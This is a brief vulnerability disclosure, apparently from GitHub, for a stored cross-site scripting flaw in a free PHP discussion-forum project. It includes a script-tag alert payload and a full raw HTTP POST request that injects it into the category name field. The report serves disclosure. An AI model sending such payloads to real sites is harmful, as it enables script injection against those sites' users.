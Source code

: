 # online-discussion-forum-site - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /odfs/classes/Master.php

Vulnerability location: /odfs/classes/Master.php?f=save_category, name

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST http://192.168.2.102/odfs/classes/Master.php?f=save_category HTTP/1.1
Host: 192.168.2.102
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,zh-CN;q=0.8,zh;q=0.7,zh-TW;q=0.5,zh-HK;q=0.3,en-US;q=0.2
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------1173846977850966238533383019
Content-Length: 743
Origin: http://192.168.2.102
Connection: close
Referer: http://192.168.2.102/odfs/admin/?page=categories
Cookie: PHPSESSID=vpohrtulukshjgjlje1jbeavrj

-----------------------------1173846977850966238533383019
Content-Disposition: form-data; name="id"

3
-----------------------------1173846977850966238533383019
Content-Disposition: form-data; name="name"

<sCrIpT>alert(1)</sCrIpT>
-----------------------------1173846977850966238533383019
Content-Disposition: form-data; name="description"

Python is a high-level, interpreted, general-purpose programming language. Its design philosophy emphasizes code readability with the use of significant indentation. Python is dynamically-typed and garbage-collected.
-----------------------------1173846977850966238533383019
Content-Disposition: form-data; name="status"

1
-----------------------------1173846977850966238533383019--

```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/xss.gif?raw=true)